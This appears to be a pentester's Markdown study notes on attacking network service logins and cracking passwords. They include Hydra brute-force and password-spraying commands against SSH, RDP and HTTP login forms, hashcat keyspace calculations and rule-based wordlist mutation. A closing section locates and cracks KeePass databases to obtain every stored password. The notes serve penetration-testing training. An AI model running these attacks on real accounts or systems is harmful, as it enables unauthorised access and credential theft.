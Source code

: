 # Attacking Network Services Logins

## SSH and RDP
Hydra
```bash
hydra -l <USERNAME> -P <PASSWORDLIST_PATH> -s <PORT> ssh://<TARGETIP>
```
We can find usernames by enumeration/information gathering techniques and by using built-in accounts such as root or Administrator

Password spraying: single password, many usernames

Once you have a password, TRY USING IT EVERYWHERE!!!

Hydra can help with this:
```bash
hydra -L /usr/share/wordlists/dirb/others/names.txt -p "<PASSWORD>" rdp://<TARGET_IP>
```

This can lead to accounts being locked out so do not blindly launch these tools.

## HTTP POST Login Form
Check the documentation of a web application to find default users. Then perform bruteforce on those users.

We need 2 pieces of info:
1. POST data itself
2. Failed login attempt (to differentiate between failure and success) -- condition string

Burp!

Now, we can use Hydra:
```bash
hydra -l <USERNAME> -P /usr/share/wordlists/rockyou.txt <TARGET_IP> http-post-form "<LOGINFORM_LOCATION>:<LOGIN_POST_DATA>:<CONDITION_STRING>"
```
Within the <LOGIN_POST_DATA> you need to specify the string to replace as `^PASS^`

For HTTP basic authentication (even if it is encoded in Burp), you can brute force using a user/password list
```bash
hydra -l admin -P rockyou.txt 192.168.191.201 http-get /
```

# Password Cracking Fundamentals
Cracking time = keyspace/hash rate
Keyspace = character set ^ amount of characters of password

To determine the hash for a string:
```bash
echo -n "<STRING>" | sha256sum
```
Example:
```bash
echo -n "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789" | wc -c
python3 -c "print(62**5)"
```
This gives you the keyspace for a 5 character password with a character set of 62

We can determine the hashrate using hashcat's benchmark mode
```bash
hashcat -b
```

Now we should have our hash rate! To calculate our cracking time, we can do keyspace/hash rate
```bash
python3 -c "print(<KEYSPACE_OUTPUT> / <HASHRATE>)"
```

This will give you the amount of seconds it will take to calculate all hashes in that keyspace, and therefore the time it will take to crack the password.

## Mutating Wordlists
Especially for password policies. Make a list of requirements and make sure all passwords in your list satsify these requirements by mutating the wordlist.

You can edit a wordlist using `sed`.

For example: remove all number sequencse (deletes all lines starting with 1 and doing editing in place with `-i`.
```bash
sed -i '/^1/d' demo.txt
```

To mutate a password list, you can make a rule file. It could ook something like this:
```bash
echo \$1 > demo.rule
```
This will append a "1" to all passwords in the list. you can mutate the list with hashcat:

```bash
hashcat -r demo.rule --stdout demo.txt
```
If you make a rule file, each line will be interpreted as a new rule. Adding e.g. 2 rules to your rule file will result in 2 mutated passwords for every password in the wordlist.

The functions in the rule file are interpreted left to right.
```bash
cat \$1 c $! > demo.rule
```
This will add a "1" and a "!", as well as capitalising the word. You don't need to add \ or $ in the rule file for every rule, just look on hashcat wiki for what you want to do exactly. https://hashcat.net/wiki/doku.php?id=rule_based_attack

If we have a hash, we can put this in a file, create a rule file and run hashcat like so:
```bash
hashcat -m 0 <HASHFILE> /usr/share/wordlists/rockyou.txt -r demo3.rule --force
```

Instead of making your own rules, you can use others/use hashcat's built-in rules:
```bash
ls -la /usr/share/hashcat/rules/
```

To use sed to add a string to the end of each entry in a wordlist, you can use this:
```bash
sed 's/.*/&<ADDED_STRING>/' <input_file.txt>
```

## Cracking Methodology

Process:
1. Extract hashes
2. Format hashes
   - Use `hash-identifier` or `hashid` to identify the hash type and change the representation of the hash to the expected format of the cracking tool (where necessary)
4. Calculate the cracking time
   - Do this before you start cracking to know whether it is feasible to attempt to crack the hash (e.g. duration of current pentest)
6. Prepare wordlist
   - Mutate wordlist for password policies and do research on other password vectors (password leaks)
8. Attack the hash
   - Start cracking!
  
## Password manager

Often, we can get access to a workstation and extract the password manager database from it. Then we can transform it to use with hashcat and crack the master database password.

To find the database on Windows:
```PowerShell
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```

Linux:
```bash
find / -type f -name '*.kdbx' 2>/dev/null
```

To transform this for hashcat:
```bash
keepass2john Database.kdbx > keepass.hash
```
It may be necessary to modify the file further to include/exclude the username. 

Now, determine the hash type in order to determine what mode to run hashcat in
```bash
hashcat --help | grep -i "KeePass"
```

In one command, we can use hashcat to crack the hash in the correct mode and modify the wordlist
```bash
hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
```

Now that we have the master password, we can open the password manager, enter the master password and we have access to all the user's passwords.
```bash

```

```bash

```

```bash

```













